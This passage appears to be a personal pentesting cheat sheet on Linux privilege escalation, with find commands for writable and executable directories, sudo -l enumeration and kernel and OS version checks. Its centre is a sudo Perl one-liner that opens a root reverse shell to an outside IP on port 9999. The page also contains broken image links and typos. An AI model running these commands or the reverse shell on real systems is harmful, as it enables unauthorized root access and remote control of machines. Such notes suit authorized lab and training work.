 > Type reset and hit return.

### Exploiting Directory

#### Find any writable directories

```
find / -type d ( -perm -g+w -or -perm -o+w ) -exec ls -adl {} \;
```

Or use

```
find / -writable -type d 2>/dev/null find / -perm -222 -type d 2>/dev/null find / -perm -o w -type d 2>/dev/null
```

#### Finding only Executable folders

```
find / -perm -o x -type d 2>/dev/null
```

#### Finding Writable and executable folders

```
find / ( -perm -o w -perm -o x ) -type d 2>/dev/null
```

#### Find commands that allows you to run as root with no password&#x20;

```
sudo -l
```

You'll see the similar result as below. As you can see, User shelly can use /usr/bin.perl as root with no password.

![](broken-reference)

![](file:///C:/Users/GraceLee/AppData/Local/Temp/ct\_tmp/1.png)

e.g) If you are allowed to use perl command as root, you can get a revese shell stright

```
sudo perl -e 'use Socket;$i="10.10.14.43";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

If this doesn't give you any hints

Check the kernel versions of the victim machines

```
uname -ar 
cat /proc/version 
cat /etc/issue 
cat /etc/*-release 
cat /etc/lsb-release # Debian based 
cat /etc/redhat-release # Redhat based
```
